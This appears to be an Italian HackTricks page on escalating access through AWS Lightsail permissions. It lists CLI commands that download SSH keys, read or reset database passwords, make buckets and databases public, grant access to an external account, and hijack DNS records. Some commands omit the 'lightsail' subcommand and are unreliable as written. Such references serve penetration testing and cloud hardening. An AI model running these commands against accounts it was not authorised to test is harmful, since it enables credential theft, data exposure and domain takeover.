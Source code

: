 # AWS - Lightsail Privesc

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Lightsail

Per ulteriori informazioni su Lightsail controlla:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
È importante notare che Lightsail **non utilizza i ruoli IAM appartenenti all'utente** ma a un account gestito da AWS, quindi non puoi abusare di questo servizio per privesc. Tuttavia, **dati sensibili** come codice, chiavi API e informazioni sul database potrebbero essere trovati in questo servizio.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Questo permesso ti permetterà di ottenere le chiavi SSH per accedere alle istanze:
```
aws lightsail download-default-key-pair
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:GetInstanceAccessDetails`

Questo permesso ti permetterà di generare chiavi SSH per accedere alle istanze:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:CreateBucketAccessKey`

Questo permesso ti permetterà di ottenere una chiave per accedere al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Questo permesso ti permetterà di ottenere le credenziali per accedere al database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del database.

### `lightsail:UpdateRelationalDatabase`

Questo permesso ti permetterà di cambiare la password per accedere al database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Se il database non è pubblico, puoi anche renderlo pubblico con queste autorizzazioni con

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impatto Potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:OpenInstancePublicPorts`

Questo permesso consente di aprire porte su Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:PutInstancePublicPorts`

Questo permesso consente di aprire porte su Internet. Nota che la chiamata chiuderà qualsiasi porta aperta non specificata in essa.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:SetResourceAccessForBucket`

Questa autorizzazione consente di dare a un'istanza accesso a un bucket senza credenziali aggiuntive.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateBucket`

Con questo permesso un attaccante potrebbe concedere al proprio account AWS accesso in lettura sui bucket o addirittura rendere i bucket pubblici per tutti:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateContainerService`

Con questi permessi, un attaccante potrebbe concedere accesso a ECR privati dal servizio di container.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impatto Potenziale:** Ottenere informazioni sensibili da ECR privato

### `lightsail:CreateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di possesso del sottodominio), o creare un record SPF che gli consente di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

### `lightsail:UpdateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di controllo del sottodominio), o creare un record SPF che gli consente di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
